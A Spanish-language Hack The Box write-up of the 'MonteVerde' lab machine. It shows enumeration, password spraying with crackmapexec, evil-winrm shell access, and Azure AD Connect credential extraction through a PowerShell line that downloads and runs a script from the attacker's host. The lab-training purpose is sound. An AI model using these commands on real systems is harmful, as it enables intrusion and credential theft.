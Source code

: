 ```yaml
---
layout: post
title: MonteVerde
date: 2022-11-18
author: BlackCage
categories: [HackTheBox]
tags: [HTB, RPC, SMB, Azure]
---
```


# MonteVerde [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.172 -oG allPorts`
- `nmap -sCV -p53,88,135,139,389,445,[...],5985,[...] 10.10.10.172 -oN targeted`

Vemos que está el puerto `5985` abierto, pertenece a `WinRM`, pero no tenemos credenciales.

### RPC

Como vemos no hay ningún puerto de servidor web, así que nos tenemos que apañar con l que tenemos, en este caso vemos el puerto `139` abierto, pero cuando tratamos de listar el contenido nos deniega el acceso.

Como tampoco podemos listar el puerto `445` vamos a tratar de conseguir una sesión `RPC` sin credenciales, así que hacemos lo siguiente:

- `rpcclient -U "" -N 10.10.10.172`

Bien! Vemos que obtenemos una conexión! Vamos a desplegar información con el comando
`querydispinfo`. Vemos muchos números, pero también varios nombres de usuario con su respectivo nombre.

```
[...] Account: AAD_987d7f2f57d2 [...]
[...] Account: dgalanos [...]
[...] Account: Guest [...]
[...] Account: mhope [...]
[...] Account: roleary [...]
[...] Account: SABatchJobs [...]
[...] Account: smorgan [...]
[...] Account: svc-ata [...]
[...] Account: svc-bexec [...]
[...] Account: svc-netapp [...]
```

Vamos a copiar todos los nombres de usuario en un archivo, en mi caso llamado `users`. Una vez tenemos el archivo podemos utilizar `CrackMapEXEC` para hacer fuerza bruta. Como sólo tenemos los nombres de usuario y queremos probar algo rápido antes que algo exhaustivo vamos a probar utilizando el nombre de usuario como contraseña.

- `crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success`

```
[...]
SMB 10.10.10.172 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
[...]
```

Bien! Hemos obtenido la contraseña de `SABatchJobs` (`SABatchJobs:SABatchJobs`) para `SMB`!

### Shell

Bien, como ya disponemos de credenciales válidas vamos a listar de nuevo `SMB`, pero utilizando las credenciales encontradas. En mi caso utilizaré `SMBMap` ya que directamente me dice qué directorios puedo leer, modificar o no tener acceso.

- `smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJob`

```
[+] IP: 10.10.10.172:445 Name: 10.10.10.
Disk            Permissions       Comment
----            -----------       -------
ADMIN$          NO ACCESS         Remote Admin
azure_uploads   READ ONLY
C$              NO ACCESS         Default share
E$              NO ACCESS         Default share
PC$             READ ONLY         Remote IPC
NETLOGON        READ ONLY         Logon server share
SYSVOL          READ ONLY         Logon server share
users$          READ ONLY
```

Vemos un directorio que nos llama la atención llamado `users$` el cual podemos leer, vamos a ver qué tiene.

- `smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs`

```
smb> get mhope/azure.xml
```

Bien! Tenemos un archivo XML! Vamos a ver qué contiene!

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
<T>System.Object</T>
</TN>

<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<Props>
<DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
<DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
<G N="KeyId">00000000-0000-0000-0000-000000000000</G>
<S N="Password">4n0therD4y@n0th3r$</S>
</Props>
</Obj>
</Objs>
```

Wow! Vemos la contraseña de Azure en texto claro! Ahora para acceder y obtener una Shell vamos a utilizar `WinRM` ya que vimos que el puerto `5985` está abierto.

- `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

```
Info: Starting Evil-WinRM shell v1.

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>

```

Bien! Ya estamos en la máquina como `mhope`!

### Subida de privilegios

Ahora que ya estamos en la máquina tenemos que tratar de ser administradores, así que
comenzé por enumeración básica, por lo que miraré en los grupos que se encuentra `mhope`.

```
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

Vemos que se encuentra en el grupo `Azure Admins`, así que después de estar mirando un poco llegué al directorio `C:\Program Files`, donde vemos varias carpetas con el nombre de `Azure`, con `*` podemos filtrar por la cadena que queramos.

```
*Evil-WinRM* PS C:\Program Files> ls *Azure*

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Investigando un poco llegamos a un artículo de [`XPN`](https://blog.xpnsec.com/azuread-connect-for-redteam/). El artículo habla de cómo
explotar `Azure Connect`.

Vemos que `mhope` es capaz de conectarse a la base de datos local (ya que es administrador) y extraer la configuración, después de eso podemos decodearlo y obtener el nombre de usuario y contraseña en texto claro de la cuenta que ha manejado la réplica.

Traté de utilizar el `script` del artículo, pero tenemos que cambiar la variable `client` para hacer que conecte con la `DB`.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
```

Una vez tenemos todo listo podemos montarnos un servidor en Python para pasarle el
archivo PS1 y hacer que lo corra, para eso haremos lo siguiente:

- `python3 -m http.server 80`

```
*Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Bien! Ya tenemos la contraseña de `administrator` (`administrator:d0m@in4dminyeah!`)! Ahora podemos hacer como antes y con `Evil-WinRM` conectarnos como `administrator`.

Enhorabuena! Ya somos administradores de la máquina!